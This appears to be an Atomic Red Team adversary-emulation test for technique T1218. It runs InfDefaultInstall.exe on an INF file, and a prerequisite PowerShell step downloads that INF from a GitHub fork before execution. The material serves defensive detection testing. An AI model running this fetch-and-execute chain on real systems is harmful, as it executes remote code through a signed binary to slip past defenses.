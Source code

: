 
#### Attack Commands: Run with `command_prompt`! 


```cmd
InfDefaultInstall.exe #{inf_to_execute}
```




#### Dependencies:  Run with `powershell`!
##### Description: INF file must exist on disk at specified location (#{inf_to_execute})
##### Check Prereq Commands:
```powershell
if (Test-Path #{inf_to_execute}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{inf_to_execute}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/emrahkaya/atomic-red-team/raw/feature/v6/atomics/T1218/src/Infdefaultinstall.inf" -OutFile "#{inf_to_execute}"
```




<br/>
